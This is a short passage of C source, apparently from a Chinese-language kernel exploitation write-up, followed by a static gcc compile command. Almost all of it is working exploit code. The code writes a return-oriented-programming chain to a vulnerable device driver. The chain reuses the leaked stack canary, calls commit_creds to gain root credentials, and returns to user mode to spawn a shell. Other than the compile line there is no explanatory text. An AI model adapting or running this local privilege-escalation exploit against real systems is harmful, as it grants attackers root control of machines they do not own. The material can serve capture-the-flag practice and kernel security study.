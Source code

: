 ```c
void call_commit_creds()
{
    __asm__ volatile(
        ".intel_syntax noprefix \n"
        "mov tmp, rax \n"
        ".att_syntax \n"
    );
    cred = tmp;
    unsigned long user_rip = (unsigned long) get_shell;
    
    /* rop */
    unsigned long rop[50];
    int off = (0xa0 - 0x20) / sizeof(unsigned long);
    rop[off++] = canary; // 0x20
    rop[off++] = 0; // 0x18
    rop[off++] = 0; // 0x10
    rop[off++] = 0; // 0x08
    rop[off++] = pop_rdi_ret;
    rop[off++] = cred;
    rop[off++] = commit_creds;
    rop[off++] = swapgs_restore_regs_and_return_to_usermode + 0x16;
    rop[off++] = 0;
    rop[off++] = 0;
    rop[off++] = user_rip;
    rop[off++] = user_cs;
    rop[off++] = user_rflags;
    rop[off++] = user_sp;
    rop[off++] = user_ss;

    if (write(devfd, rop, sizeof(rop)) < 0)
        perror("[-] write dev failed");
    puts("[+] leak prepare_kernel_cred");
}

void exploit()
{
    leak_base();
    leak_commit_creds();
}

int main()
{
    save_status();
    open_dev();
    exploit();
    return 0;
}
```

編譯: `gcc -static -fno-stack-protector -o exp exp.c`
